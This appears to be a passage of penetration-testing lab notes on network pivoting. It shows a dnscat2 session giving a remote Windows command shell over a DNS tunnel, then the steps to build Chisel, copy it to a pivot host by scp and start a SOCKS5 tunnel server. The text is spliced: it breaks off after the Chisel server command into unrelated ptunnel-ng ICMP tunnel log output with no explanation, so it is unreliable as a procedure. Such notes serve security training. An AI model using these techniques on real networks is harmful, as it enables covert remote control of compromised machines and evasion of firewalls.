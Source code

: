 #### Interacting with the Established Session

```bash
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```

## SOCKS5 Tunneling with Chisel

[Chisel](https://github.com/jpillora/chisel) is a TCP/UDP-based tunneling tool written in [Go](https://go.dev/) that uses HTTP to transport data that is secured using SSH. `Chisel` can create a client-server tunnel connection in a firewall restricted environment.

### Setting Up & Using Chisel

#### Cloning Chisel

```bash
git clone https://github.com/jpillora/chisel.git
```

#### Building the Chisel Binary

```bash
cd chisel
go build
```

#### Transferring Chisel Binary to Pivot Host

```bash
scp chisel ubuntu@10.129.202.64:~/
```

#### Running the Chisel Server on the Pivot Host

```bash
./chisel server -v -p 1234 --socks5
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%